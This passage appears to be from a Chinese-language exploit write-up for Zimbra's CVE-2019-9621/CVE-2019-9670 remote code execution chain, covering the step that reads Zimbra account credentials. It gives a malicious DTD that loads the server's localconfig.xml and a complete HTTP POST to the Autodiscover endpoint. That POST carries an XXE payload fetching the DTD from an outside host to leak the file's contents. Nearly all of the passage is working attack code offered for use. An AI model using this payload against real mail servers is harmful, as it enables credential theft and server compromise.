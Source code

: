 ![1.png](./resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId25.png)

### 第二步：读取zimbra用户账号密码

> dtd文件内容如下：

    <!ENTITY % file SYSTEM "file:../conf/localconfig.xml">  
    <!ENTITY % start "<![CDATA["> 
    <!ENTITY % end "]]>">  
    <!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>"> 

> POST请求包如下：

    POST /Autodiscover/Autodiscover.xml HTTP/1.1  
    Host: www.0-sec.org  
    User-Agent: Mozilla/5.0 (Windows NT 10.0;) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/  
    Content-Type: application/soap+xml  
    Content-Length: 436  
    Connection: close  
    Cookie: ZM_TEST=true  
    Upgrade-Insecure-Requests: 1  

    <!DOCTYPE Autodiscover [  
            <!ENTITY % dtd SYSTEM "http://www.0-sec.org/dtd">  
            %dtd;  
            %all;  
            ]>  
    <Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a">  
        <Request>  
            <EMailAddress>aaaaa</EMailAddress>  
            <AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>  
        </Request>  
    </Autodiscover>
